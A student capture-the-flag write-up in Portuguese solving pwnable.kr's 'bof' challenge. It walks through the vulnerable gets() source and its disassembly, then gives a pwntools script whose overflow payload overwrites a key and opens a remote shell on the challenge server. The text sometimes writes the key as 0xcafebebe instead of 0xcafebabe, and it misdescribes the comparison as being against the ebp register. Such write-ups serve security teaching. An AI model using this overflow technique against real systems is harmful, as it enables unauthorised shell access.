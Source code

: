 # Challenge 2: Buffer Overflow

## Autores
- [Guilherme Locca Salomão](https://github.com/Caotichazard), 758569
- [João Victor Mendes Freire](https://github.com/joaovicmendes), 758943
- [Martin Heckmann](https://github.com/heckmartin), 758986

## Descrição
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

<img src="screencaps/nc.png"/>

## Solução
Inicialmente, o problema nos mostra o seguinte código fonte:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
O objetivo do código é fazer com que `key` seja igual a `0xcafebebe`, mas o programa foi compilado passando a chave `0xdeadbeef`.
O próprio código já nos aponta pro lugar onde uma vulnerabilidade pode ser encontrada, na função `gets()`. A função, pertencente à `libc`, tem a seguinte descrição no `man`.

```
The gets() function is equivalent to fgets() with an infinite size and a stream of stdin,
except that the newline character (if any) is not stored in the string. It is the caller's
responsibility to ensure that the input line, if any, is sufficiently short to fit in the string.
```

Essa descrição já deixa claro o que deve ser feito: a função não verifica se o buffer alocado tem espaço suficiente para armazenar o conteúdo que será lido da entrada padrão. Assim, é possível fazermos um buffer overflow para alterar os conteúdos da pilha do programa.

Ao utilizarmos o programa `objdump` pra descompilar o código, obtemos o seguinte código assembly para a função `main` e `func`:

<img src="screencaps/objdump.png"/>

```
0000068a <main>:
     68a: 55                           	pushl	%ebp
     68b: 89 e5                        	movl	%esp, %ebp
     68d: 83 e4 f0                     	andl	$-16, %esp
     690: 83 ec 10                     	subl	$16, %esp
     693: c7 04 24 ef be ad de         	movl	$3735928559, (%esp)
     69a: e8 8d ff ff ff               	calll	0x62c <func>
     69f: b8 00 00 00 00               	movl	$0, %eax
     6a4: c9                           	leave
     6a5: c3                           	retl
```

```
0000062c <func>:
     62c: 55                           	pushl	%ebp
     62d: 89 e5                        	movl	%esp, %ebp
     62f: 83 ec 48                     	subl	$72, %esp
     632: 65 a1 14 00 00 00            	movl	%gs:20, %eax
     638: 89 45 f4                     	movl	%eax, -12(%ebp)
     63b: 31 c0                        	xorl	%eax, %eax
     63d: c7 04 24 8c 07 00 00         	movl	$1932, (%esp)
     644: e8 fc ff ff ff               	calll	0x645 <func+0x19>
     649: 8d 45 d4                     	leal	-44(%ebp), %eax
     64c: 89 04 24                     	movl	%eax, (%esp)
     64f: e8 fc ff ff ff               	calll	0x650 <func+0x24>
     654: 81 7d 08 be ba fe ca         	cmpl	$3405691582, 8(%ebp)
     65b: 75 0e                        	jne	0x66b <func+0x3f>
     65d: c7 04 24 9b 07 00 00         	movl	$1947, (%esp)
     664: e8 fc ff ff ff               	calll	0x665 <func+0x39>
     669: eb 0c                        	jmp	0x677 <func+0x4b>
     66b: c7 04 24 a3 07 00 00         	movl	$1955, (%esp)
     672: e8 fc ff ff ff               	calll	0x673 <func+0x47>
     677: 8b 45 f4                     	movl	-12(%ebp), %eax
     67a: 65 33 05 14 00 00 00         	xorl	%gs:20, %eax
     681: 74 05                        	je	0x688 <func+0x5c>
     683: e8 fc ff ff ff               	calll	0x684 <func+0x58>
     688: c9                           	leave
     689: c3                           	retl
```

Em `func`, podemos observar que o programa compara `3405691582` (a versão decimal de `0xcafebebe`) com o registrador `ebp`. Essa é a comparação que desejamos explorar, para fazer com que, após executar o `gets`, `ebp` tenha o valor `0xcafebebe`. Um pouco antes, no `call` que faz a chamada para `gets`, é possível ver que ele copia o conteúdo que retorna (`eax`) para `-44(%ebp)` (ou seja, esta 44 bytes abaixo do ponteiro base). Isso indica que é nessa posição que o buffer está alocado. Logo, devemos começar a preencher a partir dessa região com dados aleatórios, e depois colocarmos `0xcafebebe` logo após `ebp` para que a comparação seja verdadeira.

O seguinte script Python usa a biblioteca pwn para abrir uma conexão com o servidor e enviar a linha que executa o exploit.

```python
import pwn

input_text = 'A'*52 # para preenchermos o espaço do buffer até chegar em ebp
input_text += '\xbe\xba\xfe\xca' # o valor que será armazenado em key

conn = pwn.remote('pwnable.kr', 9000) # conexão com o servidor que está executando o programa

conn.sendline(input_text)
conn.interactive()
````

Com esse código, conseguimos um shell interativo, e basta realizarmos um `cat flag` que obtemos `daddy, I just pwned a buFFer :)`.

<img src="screencaps/overflow.png"/>
